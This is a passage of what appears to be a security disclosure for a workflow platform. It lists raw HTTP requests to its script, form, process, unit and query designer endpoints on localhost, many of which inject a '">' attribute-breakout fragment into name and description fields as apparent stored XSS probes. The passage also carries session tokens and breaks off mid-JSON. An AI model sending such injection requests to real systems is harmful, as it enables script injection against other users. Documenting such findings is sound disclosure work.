API Document: http://localhost/api
********************/
",
  "enable": true,
  "cron": "">",
  "lastStartTime": "",
  "lastEndTime": "",
  "appointmentTime": "",
  "validated": true
}
```

##### /x\_program\_center/jaxrs/invoke

```
POST /x_program_center/jaxrs/invoke?v=develop-10.0-410-3d5e0d2 HTTP/1.1
Host: localhost
Accept: text/html,application/json,*/*
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Authorization: Wrr7kmtfAdF_VIsbJE2G23835XrYMhEFvPAekU6E6zc
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Content-Type: application/json; charset=UTF-8
Origin: http://localhost
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G23835XrYMhEFvPAekU6E6zc
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Mode: cors
Referer: http://localhost/x_desktop/index.html
Sec-Fetch-Dest: empty
Content-Length: 694

{
  "name": "">",
  "id": "458bcef4-1e96-4eed-97c5-3cdfd4a4f02f",
  "alias": "">",
  "description": "">",
  "isNewInvoke": true,
  "text": "/********************
this.requestText//请求正文
this.currentPerson//当前用户
this.response//响应对象。通过this.response.setBody(data)设置响应内容
this.org; //组织快速访问方法
API Document: http://localhost/api
********************/
",
  "enableToken": true,
  "enable": true,
  "remoteAddrRegex": "",
  "lastStartTime": "",
  "lastEndTime": "",
  "validated": true,
  "data": "{"requireBodyScript":"","simulaToken":""}"
}
```

##### /x\_cms\_assemble\_control/jaxrs/design/appdict

```
POST /x_cms_assemble_control/jaxrs/design/appdict?v=develop-10.0-410-3d5e0d2&mehuhtf4 HTTP/1.1
Host: localhost
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2944N5HQSZlrvPAekU6E6zc
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Content-Type: application/json; charset=UTF-8
Referer: http://localhost/x_desktop/index.html
Accept-Language: zh-CN
Origin: http://localhost
Sec-Fetch-Mode: cors
sec-ch-ua-platform: "Windows"
Accept: text/html,application/json,*/*
Authorization: Wrr7kmtfAdF_VIsbJE2G2944N5HQSZlrvPAekU6E6zc
Content-Length: 371

{
  "name": "">",
  "id": "71b68bf4-b85d-4752-8420-e3343a1198fe",
  "application": "c5cbc57e-b5cb-458b-99fd-9d7e06f6f842",
  "alias": "">",
  "description": "">",
  "data": {},
  "appId": "c5cbc57e-b5cb-458b-99fd-9d7e06f6f842",
  "appDictId": "71b68bf4-b85d-4752-8420-e3343a1198fe"
}
```

##### /x\_cms\_assemble\_control/jaxrs/form

```
POST /x_cms_assemble_control/jaxrs/form?v=develop-10.0-410-3d5e0d2&mehuky1x HTTP/1.1
Host: localhost
Referer: http://localhost/x_desktop/index.html
Sec-Fetch-Site: same-origin
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Authorization: Wrr7kmtfAdF_VIsbJE2G2ynfMCHQW4qnvPAekU6E6zc
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json; charset=UTF-8
sec-ch-ua-platform: "Windows"
Accept: text/html,application/json,*/*
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN
Sec-Fetch-Dest: empty
Origin: http://localhost
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2ynfMCHQW4qnvPAekU6E6zc
Accept-Encoding: gzip, deflate, br, zstd
Content-Length: 3908

{
  "id": "f0945079-01ed-4f07-9c3d-a286366355d3",
  "name": "">",
  "alias": "">",
  "description": "">",
  "appId": "c5cbc57e-b5cb-458b-99fd-9d7e06f6f842",
  "formFieldList": [],
  "data": "{\"json\":{\"id\":\"f0945079-01ed-4f07-9c3d-a286366355d3\",\"name\":\"\\\">\",\"type\":\"Form\",\"mode\":\"PC\",\"description\":\"\\\">\",\"application\":\"c5cbc57e-b5cb-458b-99fd-9d7e06f6f842\",\"styles\":{\"background-color\":\"#f0f0f0\"},\"cssLinks\":[],\"scriptSrc\":[],\"formStyleType\":\"blue-simple\",\"pid\":\"PCf0945079-01ed-4f07-9c3d-a286366355d3f0945079-01ed-4f07-9c3d-a286366355d3\",\"isReadonly\":false,\"languageType\":\"none\",\"noticeType\":\"reader\",\"blankToAllNotify\":\"yes\",\"notifyCreatePerson\":\"yes\",\"subformList\":[],\"$version\":\"5.2\"},\"html\":\"<div mwftype=\\\"form\\\" id=\\\"f0945079-01ed-4f07-9c3d-a286366355d3\\\" class=\\\"cssf094507901ed4f079c3da286366355d3\\\" style=\\\"\\\"></div>\",\"isNewForm\":true}",
  "mobileData": "{\"json\":{\"id\":\"f0945079-01ed-4f07-9c3d-a286366355d3\",\"name\":\"新建表单\",\"type\":\"Form\",\"mode\":\"Mobile\",\"description\":\"\",\"application\":\"\",\"applicationName\":\"\",\"styles\":{},\"properties\":{},\"cssLinks\":[],\"scriptSrc\":[],\"jsheader\":{\"code\":\"\",\"html\":\"\"},\"events\":{\"queryLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"afterModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"postLoad\":{\"code\":\"\",\"html\":\"\"},\"load\":{\"code\":\"\",\"html\":\"\"},\"afterLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeSave\":{\"code\":\"\",\"html\":\"\"},\"postSave\":{\"code\":\"\",\"html\":\"\"},\"afterSave\":{\"code\":\"\",\"html\":\"\"},\"beforeClose\":{\"code\":\"\",\"html\":\"\"},\"beforePublish\":{\"code\":\"\",\"html\":\"\"},\"postPublish\":{\"code\":\"\",\"html\":\"\"},\"afterPublish\":{\"code\":\"\",\"html\":\"\"},\"beforeDelete\":{\"code\":\"\",\"html\":\"\"},\"afterDelete\":{\"code\":\"\",\"html\":\"\"},\"help\":{\"code\":\"\",\"html\":\"\"},\"unload\":{\"code\":\"\",\"html\":\"\"},\"click\":{\"code\":\"\",\"html\":\"\"},\"dblclick\":{\"code\":\"\",\"html\":\"\"},\"keydown\":{\"code\":\"\",\"html\":\"\"},\"keypress\":{\"code\":\"\",\"html\":\"\"},\"keyup\":{\"code\":\"\",\"html\":\"\"},\"mousedown\":{\"code\":\"\",\"html\":\"\"},\"mousemove\":{\"code\":\"\",\"html\":\"\"},\"mouseout\":{\"code\":\"\",\"html\":\"\"},\"mouseover\":{\"code\":\"\",\"html\":\"\"},\"mouseup\":{\"code\":\"\",\"html\":\"\"},\"focus\":{\"code\":\"\",\"html\":\"\"},\"blur\":{\"code\":\"\",\"html\":\"\"},\"submit\":{\"code\":\"\",\"html\":\"\"},\"reset\":{\"code\":\"\",\"html\":\"\"}},\"moduleList\":{},\"fieldList\":{}},\"html\":\"<div MWFType=\\\"form\\\" id=\\\"\\\"></div>\",\"id\":\"\",\"isNewForm\":true}"
}
```

##### /x\_cms\_assemble\_control/jaxrs/script

```
POST /x_cms_assemble_control/jaxrs/script?v=develop-10.0-410-3d5e0d2&mehuky1z HTTP/1.1
Host: localhost
sec-ch-ua-platform: "Windows"
Referer: http://localhost/x_desktop/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Origin: http://localhost
Sec-Fetch-Dest: empty
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept-Language: zh-CN
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2wzFtw3HHPMzvPAekU6E6zc
Accept: text/html,application/json,*/*
Sec-Fetch-Site: same-origin
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Mode: cors
Authorization: Wrr7kmtfAdF_VIsbJE2G2wzFtw3HHPMzvPAekU6E6zc
sec-ch-ua-mobile: ?0
Content-Length: 357

{
  "name": "">",
  "id": "a7a910be-849c-430e-ad32-74f2f6682ed7",
  "alias": "">",
  "description": "">",
  "language": "javascript",
  "dependScriptList": [],
  "isNewScript": true,
  "text": "",
  "validated": true,
  "appId": "c5cbc57e-b5cb-458b-99fd-9d7e06f6f842"
}
```

##### /x\_processplatform\_assemble\_designer/jaxrs/form

```
POST /x_processplatform_assemble_designer/jaxrs/form?v=develop-10.0-410-3d5e0d2&mehur4z2 HTTP/1.1
Host: localhost
Content-Type: application/json; charset=UTF-8
Authorization: Wrr7kmtfAdF_VIsbJE2G29FepzPqRDNPvPAekU6E6zc
Sec-Fetch-Dest: empty
Referer: http://localhost/x_desktop/index.html
sec-ch-ua-platform: "Windows"
Sec-Fetch-Mode: cors
Origin: http://localhost
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/json,*/*
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G29FepzPqRDNPvPAekU6E6zc
Content-Length: 4926

{
  "id": "a9fa20e8-1bbf-43b1-9b24-706182c95ad4",
  "name": "">",
  "alias": "">",
  "hasMobile": false,
  "description": "">",
  "application": "9fce716a-d406-40b8-9b79-7b636bd12cda",
  "category": "">",
  "formFieldList": [],
  "relatedScriptMap": null,
  "relatedFormList": [],
  "mobileRelatedScriptMap": null,
  "mobileRelatedFormList": [],
  "data": "{\"json\":{\"id\":\"a9fa20e8-1bbf-43b1-9b24-706182c95ad4\",\"name\":\"\\\">\",\"type\":\"Form\",\"mode\":\"PC\",\"description\":\"\\\">\",\"application\":\"9fce716a-d406-40b8-9b79-7b636bd12cda\",\"applicationName\":\"\\\">\",\"styles\":{\"background-color\":\"#f0f0f0\"},\"cssLinks\":[],\"scriptSrc\":[],\"submitScript\":{\"code\":\"layout.mobile ? this.popupProcessorMobile() : this.popupProcessor();\"},\"formStyleType\":\"blue-simple\",\"pid\":\"PCa9fa20e8-1bbf-43b1-9b24-706182c95ad4a9fa20e8-1bbf-43b1-9b24-706182c95ad4\",\"isReadonly\":false,\"languageType\":\"none\",\"isQuickSelect\":\"yes\",\"submitFormType\":\"default\",\"isHandwriting\":\"yes\",\"isPrompt\":true,\"promptPosition\":\"center\",\"afterProcessAction\":\"close\",\"category\":\"\\\">\",\"subformList\":[],\"$version\":\"5.2\"},\"html\":\"<div mwftype=\\\"form\\\" id=\\\"a9fa20e8-1bbf-43b1-9b24-706182c95ad4\\\" class=\\\"cssa9fa20e81bbf43b19b24706182c95ad4\\\" style=\\\"\\\"></div>\",\"isNewForm\":true}",
  "mobileData": "{\"json\":{\"id\":\"a9fa20e8-1bbf-43b1-9b24-706182c95ad4\",\"name\":\"新建表单\",\"type\":\"Form\",\"mode\":\"Mobile\",\"description\":\"\",\"application\":\"\",\"applicationName\":\"\",\"styles\":{},\"properties\":{},\"cssLinks\":[],\"scriptSrc\":[],\"jsheader\":{\"code\":\"\",\"html\":\"\"},\"submitScript\":{\"code\":\"layout.mobile ? this.popupProcessorMobile() : this.popupProcessor();\",\"html\":\"\"},\"events\":{\"queryLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeLoad\":{\"code\":\"\",\"html\":\"\"},\"postLoad\":{\"code\":\"\",\"html\":\"\"},\"afterLoad\":{\"code\":\"\",\"html\":\"\"},\"beforeSave\":{\"code\":\"\",\"html\":\"\"},\"afterSave\":{\"code\":\"\",\"html\":\"\"},\"beforeClose\":{\"code\":\"\",\"html\":\"\"},\"beforeProcess\":{\"code\":\"\",\"html\":\"\"},\"beforeProcessWork\":{\"code\":\"\",\"html\":\"\"},\"afterProcess\":{\"code\":\"\",\"html\":\"\"},\"beforeReset\":{\"code\":\"\",\"html\":\"\"},\"afterReset\":{\"code\":\"\",\"html\":\"\"},\"beforeRetract\":{\"code\":\"\",\"html\":\"\"},\"afterRetract\":{\"code\":\"\",\"html\":\"\"},\"beforeReroute\":{\"code\":\"\",\"html\":\"\"},\"afterReroute\":{\"code\":\"\",\"html\":\"\"},\"beforeDelete\":{\"code\":\"\",\"html\":\"\"},\"afterDelete\":{\"code\":\"\",\"html\":\"\"},\"beforeModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"afterModulesLoad\":{\"code\":\"\",\"html\":\"\"},\"help\":{\"code\":\"\",\"html\":\"\"},\"load\":{\"code\":\"\",\"html\":\"\"},\"unload\":{\"code\":\"\",\"html\":\"\"},\"click\":{\"code\":\"\",\"html\":\"\"},\"dblclick\":{\"code\":\"\",\"html\":\"\"},\"keydown\":{\"code\":\"\",\"html\":\"\"},\"keypress\":{\"code\":\"\",\"html\":\"\"},\"keyup\":{\"code\":\"\",\"html\":\"\"},\"mousedown\":{\"code\":\"\",\"html\":\"\"},\"mousemove\":{\"code\":\"\",\"html\":\"\"},\"mouseout\":{\"code\":\"\",\"html\":\"\"},\"mouseover\":{\"code\":\"\",\"html\":\"\"},\"mouseup\":{\"code\":\"\",\"html\":\"\"},\"focus\":{\"code\":\"\",\"html\":\"\"},\"blur\":{\"code\":\"\",\"html\":\"\"},\"submit\":{\"code\":\"\",\"html\":\"\"},\"reset\":{\"code\":\"\",\"html\":\"\"}},\"moduleList\":{},\"fieldList\":{}},\"html\":\"<div MWFType=\\\"form\\\" id=\\\"\\\"></div>\",\"id\":\"\",\"isNewForm\":true}"
}
```

##### /x\_organization\_assemble\_control/jaxrs/unit/{flag}

```
PUT /x_organization_assemble_control/jaxrs/unit/571c60ac-c15b-4919-a33a-47197234fc96?v=develop-10.0-410-3d5e0d2 HTTP/1.1
Host: localhost
Referer: http://localhost/x_desktop/index.html
Authorization: Wrr7kmtfAdF_VIsbJE2G28XAJv8onwjcvPAekU6E6zc
Accept: text/html,application/json,*/*
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Sec-Fetch-Dest: empty
Accept-Language: zh-CN
Content-Type: application/json; charset=UTF-8
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept-Encoding: gzip, deflate, br, zstd
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G28XAJv8onwjcvPAekU6E6zc
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Content-Length: 823

{
  "name": "",
  "unique": "111",
  "typeList": ["company"],
  "description": "",
  "shortName": "",
  "superior": "",
  "orderNumber": "240830079",
  "controllerList": [],
  "control": { "allowEdit": true, "allowDelete": true },
  "woSubDirectIdentityList": [],
  "woUnitAttributeList": [],
  "woUnitDutyList": [],
  "subDirectUnitCount": 0,
  "subDirectIdentityCount": 0,
  "id": "571c60ac-c15b-4919-a33a-47197234fc96",
  "distinguishedName": "">@111@U",
  "pinyin": "">",
  "pinyinInitial": "">",
  "level": 1,
  "levelName": "">",
  "levelOrderNumber": "0000000000",
  "createTime": "2025-08-19 09:14:39",
  "updateTime": "2025-08-19 09:14:39"
}
```

##### /x\_processplatform\_assemble\_designer/jaxrs/process

```
POST /x_processplatform_assemble_designer/jaxrs/process?v=develop-10.0-410-3d5e0d2&mehus0es HTTP/1.1
Host: localhost
Referer: http://localhost/x_desktop/index.html
Sec-Fetch-Site: same-origin
Content-Type: application/json; charset=UTF-8
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G23x52vSQNyKzvPAekU6E6zc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/json,*/*
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Authorization: Wrr7kmtfAdF_VIsbJE2G23x52vSQNyKzvPAekU6E6zc
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Content-Length: 3591

{
  "name": "">",
  "alias": "">",
  "description": "">",
  "application": "9fce716a-d406-40b8-9b79-7b636bd12cda",
  "creatorPerson": "",
  "createTime": "2025-08-19 09:19:19",
  "lastUpdatePerson": "",
  "lastUpdateTime": "",
  "id": "46974d2c-86d4-45c9-8a01-26744e1d5b08",
  "autoList": [],
  "begin": {
    "process": "46974d2c-86d4-45c9-8a01-26744e1d5b08",
    "name": "开始",
    "alias": "",
    "description": "",
    "position": "200,60",
    "route": "984b67f5-77bb-46c8-bc8d-ac41250708bd",
    "id": "85676808-b46e-4758-a8bd-e38c5cd15d42",
    "createTime": "2025-08-19 09:19:17",
    "type": "begin",
    "readIdentityList": [],
    "readDepartmentList": [],
    "readScript": "",
    "readScriptText": "",
    "reviewIdentityList": [],
    "reviewDepartmentList": [],
    "reviewScript": "",
    "reviewScriptText": "",
    "beforeArriveScript": "",
    "afterArriveScript": "",
    "beforeExecuteScript": "",
    "afterExecuteScript": "",
    "afterInquiryScript": "",
    "edition": "CB5289B9D2B000019433D4C015A0B020",
    "updateTime": "2025-08-19 09:19:17"
  },
  "conditionList": [],
  "choiceList": [],
  "parallelList": [],
  "embedList": [],
  "publishList": [],
  "endList": [
    {
      "id": "6b79c09a-8fda-4817-acda-a7c0f8622704",
      "process": "46974d2c-86d4-45c9-8a01-26744e1d5b08",
      "name": "结束",
      "alias": "",
      "description": "",
      "position": "200,330",
      "createTime": "2025-08-19 09:19:17",
      "type": "end",
      "readIdentityList": [],
      "readDepartmentList": [],
      "readScript": "",
      "readScriptText": "",
      "reviewIdentityList": [],
      "reviewDepartmentList": [],
      "reviewScript": "",
      "reviewScriptText": "",
      "beforeArriveScript": "",
      "afterArriveScript": "",
      "beforeExecuteScript": "",
      "afterExecuteScript": "",
      "edition": "CB5289B9D2E00001C353E2D01FB09320",
      "updateTime": "2025-08-19 09:19:17",
      "routeList": []
    }
  ],
  "invokeList": [],
  "manualList": [],
  "mergeList": [],
  "routeList": [
    {
      "id": "984b67f5-77bb-46c8-bc8d-ac41250708bd",
      "createTime": "2025-08-19 09:19:19",
      "updateTime": "2025-08-19 09:19:19",
      "process": "46974d2c-86d4-45c9-8a01-26744e1d5b08",
      "activityType": "end",
      "activity": "6b79c09a-8fda-4817-acda-a7c0f8622704",
      "name": "开始",
      "alias": "",
      "description": "",
      "track": "",
      "routeScriptIdList": [],
      "position": "",
      "edition": "CB5289BA49700001128A17F136D117FC"
    }
  ],
  "splitList": [],
  "cancelList": [],
  "managerIdentityList": [],
  "reviewIdentityList": [],
  "startableIdentityList": [],
  "startableDepartmentList": [],
  "startableCompanyList": [],
  "beforeBeginScript": "",
  "beforeBeginScriptText": "",
  "afterBeginScript": "",
  "afterBeginScriptText": "",
  "beforeEndScript": "",
  "beforeEndScriptText": "",
  "afterEndScript": "",
  "afterEndScriptText": "",
  "categoryName": "",
  "expireType": "never",
  "expireDay": "7",
  "expireHour": "0",
  "expireWorkTime": true,
  "isNewProcess": true,
  "projectionData": null,
  "applicationName": "">",
  "category": "",
  "routeNameAsOpinion": false,
  "startableTerminal": "all",
  "defaultStartMode": "instance",
  "checkDraft": false,
  "serialPhase": "arrive",
  "projectionFully": true,
  "updateTableEnable": false,
  "dataTraceFieldType": "none",
  "serialTexture": "[]",
  "updateTime": "2025-08-19 09:19:19"
}
```

##### /x\_processplatform\_assemble\_designer/jaxrs/script

```
POST /x_processplatform_assemble_designer/jaxrs/script?v=develop-10.0-410-3d5e0d2&mehus0f1 HTTP/1.1
Host: localhost
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2zt7OLsCWYOjvPAekU6E6zc
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json; charset=UTF-8
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Origin: http://localhost
Sec-Fetch-Mode: cors
Referer: http://localhost/x_desktop/index.html
Accept: text/html,application/json,*/*
Sec-Fetch-Dest: empty
Authorization: Wrr7kmtfAdF_VIsbJE2G2zt7OLsCWYOjvPAekU6E6zc
Content-Length: 440

{
  "name": "">",
  "id": "a138043f-c2c7-4330-97dc-36e43376c125",
  "application": "9fce716a-d406-40b8-9b79-7b636bd12cda",
  "alias": "">",
  "description": "">",
  "language": "javascript",
  "dependScriptList": [],
  "isNewScript": true,
  "text": "",
  "applicationName": "">",
  "validated": true
}
```

##### /x\_query\_assemble\_designer/jaxrs/stat

```
POST /x_query_assemble_designer/jaxrs/stat?v=develop-10.0-410-3d5e0d2&mehus0fb HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json; charset=UTF-8
Sec-Fetch-Mode: cors
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G25gYU_HkHdxjvPAekU6E6zc
Origin: http://localhost
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Referer: http://localhost/x_desktop/index.html
Authorization: Wrr7kmtfAdF_VIsbJE2G25gYU_HkHdxjvPAekU6E6zc
Accept-Language: zh-CN
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept: text/html,application/json,*/*
Sec-Fetch-Dest: empty
sec-ch-ua-platform: "Windows"
Content-Length: 706

{
  "application": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "name": "">",
  "alias": "">",
  "description": "">",
  "availableIdentityList": [],
  "availableDepartmentList": [],
  "availableCompanyList": [],
  "data": "{"calculate":{"chart":["bar"],"isGroup":false,"isAmount":false,"calculateList":[],"orderType":"original","groupMergeType":"item"}}",
  "id": "7e158372-388a-4fe7-a0be-a7793df994d0",
  "isNewView": true,
  "applicationName": "">",
  "display": true,
  "query": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "queryName": "">"
}
```

##### /x\_query\_assemble\_designer/jaxrs/table

```
POST /x_query_assemble_designer/jaxrs/table?v=develop-10.0-410-3d5e0d2&mehus0fd HTTP/1.1
Host: localhost
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Fetch-Mode: cors
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br, zstd
Referer: http://localhost/x_desktop/index.html
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/json,*/*
Authorization: Wrr7kmtfAdF_VIsbJE2G27ilJKieroa4vPAekU6E6zc
Content-Type: application/json; charset=UTF-8
Origin: http://localhost
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G27ilJKieroa4vPAekU6E6zc
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Content-Length: 590

{
  "id": "8736ad48-ce8e-488a-9f92-ea820c52e094",
  "name": "hack",
  "alias": "hack",
  "description": "">",
  "query": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "readPersonList": [],
  "readUnitList": [],
  "editPersonList": [],
  "editUnitList": [],
  "status": "draft",
  "draftData": "{"fieldList":[{"name":"hack","description":"hack","type":"string"}]}",
  "isNewTable": true,
  "application": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "applicationName": "">",
  "queryName": "">"
}
```

##### /x\_query\_assemble\_designer/jaxrs/statement

```
POST /x_query_assemble_designer/jaxrs/statement?v=develop-10.0-410-3d5e0d2&mehus0fr HTTP/1.1
Host: localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: empty
Referer: http://localhost/x_desktop/index.html
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: cors
Authorization: Wrr7kmtfAdF_VIsbJE2G2-l0loRWKHnxvPAekU6E6zc
Accept-Language: zh-CN
Content-Type: application/json; charset=UTF-8
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: text/html,application/json,*/*
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G2-l0loRWKHnxvPAekU6E6zc
Content-Length: 9019

{
  "id": "73ad0133-7609-4ac1-82cc-3454671a7c7a",
  "name": "newStatement",
  "alias": "",
  "description": "">",
  "query": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "executePersonList": [],
  "executeUnitList": [],
  "data": "SELECT o FROM table o",
  "beforeScriptText": "",
  "afterScriptText": "",
  "table": "",
  "viewEnable": true,
  "isNewStatement": true,
  "application": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "format": "sqlScript",
  "entityCategory": "official",
  "countMethod": "auto",
  "entityClassName": "com.x.processplatform.core.entity.content.Task",
  "applicationName": "">",
  "vid": "73ad0133-7609-4ac1-82cc-3454671a7c7a",
  "pid": "73ad0133-7609-4ac1-82cc-3454671a7c7a73ad0133-7609-4ac1-82cc-3454671a7c7a",
  "mid": "73ad0133-7609-4ac1-82cc-3454671a7c7a",
  "countData": "SELECT count(o.id) FROM table o",
  "display": true,
  "anonymousAccessible": false,
  "view": "{"id":"73ad0133-7609-4ac1-82cc-3454671a7c7a_view","data":{"noDataText":"未找到数据","selectList":[],"filterList":[],"orderList":[],"group":{},"columnList":[],"actionbarHidden":true,"events":{"queryLoad":{"code":"","html":""},"postLoad":{"code":"","html":""},"postLoadPageData":{"code":"","html":""},"postLoadPage":{"code":"","html":""},"queryLoadItemRow":{"code":"","html":""},"postLoadItemRow":{"code":"","html":""},"selectRow":{"code":"","html":""},"unselectRow":{"code":"","html":""},"export":{"code":"","html":""},"exportRow":{"code":"","html":""}},"viewStyleType":"default","viewStyles":{"container":{"height":"100%","overflow":"auto","font-size":"14px"},"table":{"margin-bottom":"20px","width":"100%"},"titleTr":{"line-height":"40px","height":"40px","color":"#666666","background-color":"#EEE"},"titleTd":{"font-weight":"bold","padding":"0px 10px","border-bottom":"1px solid #CCC","background":"inherit"},"contentTr":{"background":"#ffffff"},"contentSelectedTr":{"background":"#ecf5ff"},"contentTd":{"height":"30px","line-height":"30px","padding":"5px 5px","border-bottom":"1px solid #CCC"},"zebraContentTd":{"height":"30px","line-height":"30px","padding":"5px 5px","border-bottom":"1px solid #CCC"},"checkboxNode":{"background-image":"url(../x_component_query_Query/$Viewer/default/icon/checkbox.png)","background-repeat":"no-repeat","background-position":"center center"},"checkedCheckboxNode":{"background-image":"url(../x_component_query_Query/$Viewer/default/icon/checkbox_checked.png)","background-repeat":"no-repeat","background-position":"center center"},"radioNode":{"background-image":"url(../x_component_query_Query/$Viewer/default/icon/radiobox.png)","background-repeat":"no-repeat","background-position":"center center"},"checkedRadioNode":{"background-image":"url(../x_component_query_Query/$Viewer/default/icon/radiobox_checked.png)","background-repeat":"no-repeat","background-position":"center center"},"noDataTextNode":{"height":"50px","font-size":"16px","margin":"20px auto","text-align":"center"},"tableProperties":{"width":"100%","border":"0","cellpadding":"0","cellspacing":"0"}},"pagingList":[{"id":"679d2782-ae1a-4fdd-884c-f0996d3c3718","name":"","type":"Paging","description":"","style":"blue_round","visiblePages":9,"prePageText":"","nextPageText":"","firstPageText":"第一页","lastPageText":"最后一页","textStyle":"共<font style='color:#4a90e2;'>{count}</font>条数据，每页<font style='color:#4a90e2;'>{countPerPage}</font>条，共<font style='color:#4a90e2;'>{page}</font>页","events":{"queryLoad":{"code":"","html":""},"postLoad":{"code":"","html":""},"load":{"code":"","html":""},"afterLoad":{"code":"","html":""},"jump":{"code":"","html":""},"click":{"code":"","html":""},"dblclick":{"code":"","html":""},"keydown":{"code":"","html":""},"keypress":{"code":"","html":""},"keyup":{"code":"","html":""},"mousedown":{"code":"","html":""},"mousemove":{"code":"","html":""},"mouseout":{"code":"","html":""},"mouseover":{"code":"","html":""},"mouseup":{"code":"","html":""}},"moduleName":"paging","pagingStyles":{"pagingBarWraper":{"height":"60px","overflow":"hidden"},"pagingBar":{"float":"left","margin-left":"10px","margin-top":"18px","height":"24px","color":"#777777"},"firstPage":{"height":"24px","width":"80px","border":"1px solid 